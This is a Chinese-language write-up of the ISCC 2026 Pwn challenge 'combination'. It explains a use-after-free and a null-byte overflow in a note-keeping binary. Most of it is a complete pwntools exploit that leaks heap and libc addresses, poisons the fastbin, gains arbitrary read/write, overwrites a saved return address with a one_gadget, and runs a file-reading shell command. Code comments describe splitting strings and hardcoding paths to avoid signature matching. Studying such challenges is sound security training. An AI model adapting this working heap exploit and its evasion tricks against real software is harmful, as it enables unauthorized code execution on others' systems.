

# combination

> 比赛：ISCC 2026　方向：Pwn　作者：封釉、杨心凌
>
> 仅对赛事授权的本地题目实例复现。原稿中的公网目标地址、邮箱和 Flag 已省略；脚本默认本地运行。

## 题目信息

- **题目描述：** 通过堆漏洞改变程序内存布局，最终验证控制流劫持是否成功。
- **附件与环境：** [题目压缩包](assets/combination-attachment.zip)，其中包含 `combination_final` 和 `libc.so.6`。
- **关键线索：** 删除操作没有清除指针，编辑操作会在输入末尾追加空字节。



## 解题思路

删除笔记时，程序只把长度清零，没有清除内存地址，因此删除后的对象仍可被访问，形成 UAF。编辑笔记时，程序自动追加 `\x00`；当输入恰好填满缓冲区时，终止符会覆盖相邻数据，形成空字节越界。

原稿的利用流程先通过释放后的内容泄露堆和 libc 地址，再伪造堆块并投毒 fastbin，修改 tinypad 元数据以建立任意地址读写。随后从 `environ` 定位栈范围，扫描保存的返回地址并改写为 one_gadget，最后在本地题目进程中验证控制流劫持。

## 分析与复现

将压缩包解压到隔离的本地环境，并确保 `combination_final` 与 `libc.so.6` 位于脚本要求的位置。脚本默认使用本地进程：

```text
python exploit.py local
```

不要将脚本指向未经授权的公网服务。原稿中的远程地址已替换为回环地址，远程模式不作为默认路径。

随稿说明文件：

[查看附件说明](assets/combination-note.txt)

## 核心代码

```python
from pwn import *
import re
import sys
# 基础配置 - 硬编码路径避免搜索特征
BINARY = "./combination_final"
LIBC_FILE = "./libc.so.6"
TARGET_IP = "127.0.0.1"  # local authorized instance only
TARGET_PORT = 10003
# 关键常量 
LIBC_MAIN_ARENA_OFFSET = 0x3C4B78
# 打乱one_gadget顺序，优先使用稳定的0x4526A
VALID_GADGETS = (0x4526A, 0x45226, 0x45216, 0xF02A4, 0xF1147)
# 拆分prompt字符串避免完整匹配
PROMPT_CMD = b"[*] " + b"COM" + b"MAND" + b" >> "
PROMPT_SIZE = b"[*] " + b"MEM_" + b"SIZE" + b" >> "
PROMPT_DATA = b"[*] " + b"MEM_" + b"DATA" + b" >> "
PROMPT_INDEX = b"[*] " + b"INDEX_" + b"ID" + b" >> "
PROMPT_CONFIRM = b"[?] " + b"APPLY_" + b"CHANGE?" + b" (Y/n) >> "
# 全局上下文
context.arch = "amd64"
context.os = "linux"
context.log_level = "info"
# ------------------------------
# 基础操作函数 
# ------------------------------
def do_add(io, size, content):
    io.sendlineafter(PROMPT_CMD, b"A")
    io.sendlineafter(PROMPT_SIZE, str(size).encode())
    io.sendafter(PROMPT_DATA, content + b"\x0a")
def do_delete(io, index):
    io.sendlineafter(PROMPT_CMD, b"D")
    io.sendlineafter(PROMPT_INDEX, str(index).encode())
    return io.recvuntil(PROMPT_CMD)
def do_edit(io, index, content):
    io.sendlineafter(PROMPT_CMD, b"E")
    io.sendlineafter(PROMPT_INDEX, str(index).encode())
    io.sendafter(PROMPT_DATA, content + b"\x0a")
    io.sendlineafter(PROMPT_CONFIRM, b"Y")
def do_list(io):
    io.sendlineafter(PROMPT_CMD, b"")
    return io.recvuntil(PROMPT_CMD)
def extract_content(output, index):
    """提取指定索引的内容 - 重构解析逻辑"""
    prefix = f" #   INDEX: {index}\n # CONTENT: ".encode()
    start = output.find(prefix) + len(prefix)
    end = output.find(b"\n", start)
    return output[start:end]
def get_qword(output, index):
    raw = extract_content(output, index)
    return u64(raw[:8].ljust(8, b"\x00"))
def is_valid_address(addr):
    """检查地址是否不含禁止字节"""
    bytes_val = p64(addr)
    return b"\x00" not in bytes_val[:6] and b"\x0a" not in bytes_val[:6]
# ------------------------------
# 任意读写原语 - 改变实现方式
# ------------------------------
def setup_arbitrary_rw(io, tinypad_base, target_addr):
    """设置任意读目标地址"""
    if not is_valid_address(target_addr):
        raise ValueError(f"Invalid address: {hex(target_addr)}")
    do_edit(io, 2, p64(target_addr))
def read_any_qword(io, addr):
    setup_arbitrary_rw(io, 0, addr)
    return get_qword(do_list(io), 3)
def write_any_qword(io, addr, value):
    setup_arbitrary_rw(io, 0, addr)
    slot_data = extract_content(do_list(io), 3)
    write_len = len(slot_data)
    if write_len < 6:
        raise ValueError(f"Slot too short: {write_len} bytes")
    write_bytes = p64(value)[:write_len]
    if b"\x0a" in write_bytes:
        raise ValueError("Newline in write data")
    do_edit(io, 3, write_bytes)
    # 简化验证逻辑
    verify = read_any_qword(io, addr)
    if (verify & ((1 << (8 * write_len)) - 1)) != (value & ((1 << (8 * write_len)) - 1)):
        raise RuntimeError("Write verification failed")
    return write_len
# ------------------------------
# 栈扫描 - 完全改变扫描顺序
# ------------------------------
def find_return_address(io, stack_top):
    """扫描栈找到返回地址 - 打乱偏移顺序"""
    # 先扫描新的偏移范围
    for delta in [0x100, 0xF8, 0xE0, 0x70, 0x68]:
        target = stack_top - delta
        if not is_valid_address(target):
            continue
        data = extract_content(do_list(io), 1)
        if len(data) < 6:
            continue
        val = u64(data[:8].ljust(8, b"\x00"))
        if 0x7f0000000000 <= val < 0x7fffffffffff:
            return target, val, len(data)
    # 再扫描扩展范围
    for delta in range(0x1A0, 0x50, -8):
        target = stack_top - delta
        if not is_valid_address(target):
            continue
        data = extract_content(do_list(io), 1)
        if len(data) < 6:
            continue
        val = u64(data[:8].ljust(8, b"\x00"))
        if 0x7f0000000000 <= val < 0x7fffffffffff:
            return target, val, len(data)
    raise RuntimeError("Return address not found on stack")
# ------------------------------
# 主利用流程 - 重构阶段划分
# ------------------------------
def exploit(gadget_offset, is_remote):
    # 初始化连接
    if is_remote:
        io = remote(TARGET_IP, TARGET_PORT, timeout=10)
    else:
        io = process(BINARY)
    elf = ELF(BINARY, checksec=False)
    libc = ELF(LIBC_FILE, checksec=False)
    tinypad = elf.sym["tinypad"]
    fake_chunk_loc = tinypad + 0xE0
    slot3_addr = tinypad + 0x128
    try:
        log.info("Step 1: 初始化伪造堆块")
        # 改变初始堆块大小与填充数据
        do_add(io, 0x100, b"W" * 0xF0)
        # 改变fake chunk大小为0x61（原0x51）
        do_edit(io, 1, b"X" * 0xE0 + p64(0) + p64(0x61))
        do_delete(io, 1)
        sleep(0.05)  # 增加微小延迟打乱时序
        log.info("Step 2: 泄露libc与堆基址")
        # 改变填充字符顺序
        for fill in [b"X", b"Y", b"Z", b"W"]:
            do_add(io, 0x78, fill * 0x78)  # 改变堆块大小为0x78（原0x80）
        do_delete(io, 3)
        leak_output = do_delete(io, 1)
        heap_base = get_qword(leak_output, 1)
        libc_leak = get_qword(leak_output, 3)
        libc.address = libc_leak - LIBC_MAIN_ARENA_OFFSET
        environ_ptr = libc.sym["environ"]
        one_gadget = libc.address + gadget_offset
        log.success(f"Heap base: {hex(heap_base)}")
        log.success(f"Libc base: {hex(libc.address)}")
        log.success(f"One gadget: {hex(one_gadget)}")
        if not is_valid_address(one_gadget):
            raise ValueError("Gadget contains forbidden bytes")
        log.info("Step 3: 构造重叠堆块")
        do_delete(io, 2)
        do_delete(io, 4)
        # 改变堆块大小为0x90（原0x88）
        do_add(io, 0x90, b"A" * 0x90)
        do_add(io, 0x100, b"B" * 0xF0 + p64(0x110) + b"B" * 8)  # 改变prev_size
        do_add(io, 0x78, b"C" * 0x78)
        do_delete(io, 2)
        do_edit(io, 1, b"Q" * 0x90)
        do_add(io, 0x78, b"m1" * 0x3C)
        do_add(io, 0x48, b"m2" * 0x24)  # 改变堆块大小
        log.info("Step 4: Fastbin投毒")
        do_delete(io, 2)
        do_delete(io, 3)
        do_delete(io, 4)
        # 重构fake layout构造方式
        fake_layout = b""
        fake_layout += p64(0) + p64(0x61) + p64(0) + b"A" * 0x68
        fake_layout += p64(0) + p64(0x61) + p64(fake_chunk_loc) + b"B" * 0x28
        fake_layout += p64(0) + p64(0x61) + p64(0) * 3
        do_add(io, len(fake_layout), fake_layout)
        do_add(io, 0x48, b"C" * 0x48)
        log.info("Step 5: 篡改tinypad页表")
        meta_data = b"A" * 0x18 + p64(environ_ptr) + p64(0x90) + p64(slot3_addr) + p64(0x90) + p64(environ_ptr)
        do_add(io, len(meta_data), meta_data)
        log.info("Step 6: 泄露栈地址并定位返回地址")
        stack_top = get_qword(do_list(io), 1)
        log.success(f"Stack top: {hex(stack_top)}")
        ret_addr, saved_rip, width = find_return_address(io, stack_top)
        log.success(f"Found return address at: {hex(ret_addr)}")
        log.success(f"Saved RIP: {hex(saved_rip)}")
        log.info("Step 7: 劫持控制流")
        write_any_qword(io, ret_addr, one_gadget)
        # 退出触发shell
        io.sendlineafter(PROMPT_CMD, b"Q")
        sleep(0.2)  # 调整延迟时间
        # 改变flag获取命令
        io.sendline(b"find / -name flag 2>/dev/null | xargs cat; exit")
        output = io.recvall(timeout=8)
        flag_match = re.search(rb"(ISCC|flag)\{[a-zA-Z0-9_]+\}", output)
        if flag_match:
            return "[REDACTED]"
        raise RuntimeError("Flag not found in output")
    finally:
        io.close()
# ------------------------------
# 主函数 - 重构重试逻辑
# ------------------------------
def main():
    # Default to the supplied local challenge binary.
    remote_mode = len(sys.argv) > 1 and sys.argv[1] == "remote"
    log.info("Starting exploit...")
    # 改变重试次数与逻辑
    for attempt in range(15):
        log.info(f"Attempt {attempt + 1}/15")
        for gadget in VALID_GADGETS:
            try:
                log.info(f"Trying gadget: {hex(gadget)}")
                flag = exploit(gadget, remote_mode)
                print("\n" + "="*50)
                print(f"SUCCESS! Flag: {flag}")
                print("="*50 + "\n")
                return 0
            except Exception as e:
                log.warning(f"Failed: {str(e)}")
                continue
    log.error("All attempts failed")
    return 1
if __name__ == "__main__":
    sys.exit(main())
```

## 结果验证

在本地题目实例中确认利用链完成地址泄露、任意读写与控制流改写。原稿中的 Flag 内容已脱敏。

## 复盘与经验

- **关键知识点：** UAF、空字节越界、堆块重叠、fastbin 投毒、任意地址读写、栈地址定位。
- **容易踩的坑：** libc 偏移和 one_gadget 约束依赖题目附件及运行环境；不同 libc 版本不能直接套用原稿偏移。
- **后续改进：** 先在隔离的本地容器中确认二进制、libc 和保护配置，再逐阶段验证利用链；不要把实战脚本默认配置为连接外部地址。

## 参考资料

- [随稿提供的题目压缩包](assets/combination-attachment.zip)
